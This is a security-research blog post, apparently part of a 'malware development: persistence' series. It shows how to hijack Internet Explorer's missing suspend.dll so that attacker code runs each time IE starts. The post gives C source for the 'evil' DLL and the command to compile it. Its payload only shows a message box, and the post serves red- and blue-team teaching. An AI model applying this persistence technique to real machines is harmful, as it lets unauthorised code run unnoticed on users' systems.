

\newpage
\subsection{81. malware development: persistence - part 15. Internet Explorer. Simple C++ example.}

﷽


{width="80%"}    

This post is the result of my own research into one of the interesting malware persistence trick: via Internet Explorer.     

### internet explorer

In one of my [previous posts](https://cocomelonc.github.io/pentest/2021/10/12/dll-hijacking-2.html) I wrote about real world example of DLL hijacking. In this time the victim is Internet Explorer. Surely many of you do not even use it and are unlikely to deleted it on purpose from Windows system.    

### practical example

As in my previous post, let’s go to run [procmon](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon) from sysinternals, and setting the following filters:    

{width="80%"}    

Then run `Internet Explorer`:     

{width="80%"}    

{width="80%"}    

As you can see, the process `iexplore.exe` is missing several DLLs which possibly can be used for DLL hijacking. For example `suspend.dll`:     

{width="80%"}    

Let's go to search any other probably locations, maybe we have legit DLL:    

```powershell
cd C:\
dir /b /s suspend.dll
```

{width="80%"}    

But as you can see, file not found so, this DLL is used by Internet Explorer only.    

Then, I prepared "evil" DLL, `meow-woof` messagebox:        

```cpp
/*
evil.c - malicious DLL
DLL hijacking. Internet Explorer
author: @cocomelonc
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  ul_reason_for_call, 
LPVOID lpReserved) {
    switch (ul_reason_for_call)  {
    case DLL_PROCESS_ATTACH:
      MessageBox(
        NULL,
        "Meow-woof!",
        "=^..^=",
        MB_OK
      );
      break;
    case DLL_PROCESS_DETACH:
      break;
    case DLL_THREAD_ATTACH:
      break;
    case DLL_THREAD_DETACH:
      break;
    }
    return TRUE;
}
```

### demo

Let's go to see everything in action. Compiling our evil DLL:    

```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.c
```

{width="80%"}    

Then naming the file `suspend.dll` and placing it in the directory where Internet Explorer is loaded:     

{width="80%"}    

{width="80%"}    

And finally try to run our victim application:     

{width="80%"}    

{width="80%"}    

{width="80%"}    

After we close pop-up IE work correctly, not crashed:    

{width="80%"}    

As you can see, it's worked. Perfect! =^..^=     

### conclusion

We now have achieved persistence via IE.    

That's why this post belongs to the persistence category, our malicious DLL will launch anytime user starts IE too. And, when they exit it too. Surprise for my windows lovers. You don't even have to install or remove anything.    

It's worked also on `Windows 11 x64`:     

{width="80%"}    

Although it’s unlikely that anyone will launch IE in 2022, will you agree?    

As a Windows bug hunter, if you want to find privilege escalation vulnerabilities on the operating system itself, you’ll often want to start from a blank page, with a clean installation of Windows.      

I don't know if any APT in the wild used this tactic and trick, but, I hope this post spreads awareness to the blue teamers of this interesting technique especially when create software, and adds a weapon to the red teamers arsenal.    

[DLL hijacking](https://cocomelonc.github.io/pentest/2021/09/24/dll-hijacking-1.html)     
[DLL hijacking with exported functions](https://cocomelonc.github.io/pentest/2021/10/12/dll-hijacking-2.html)     
[source code in github](https://github.com/cocomelonc/meow/tree/master/2022-10-12-malware-pers-15)     
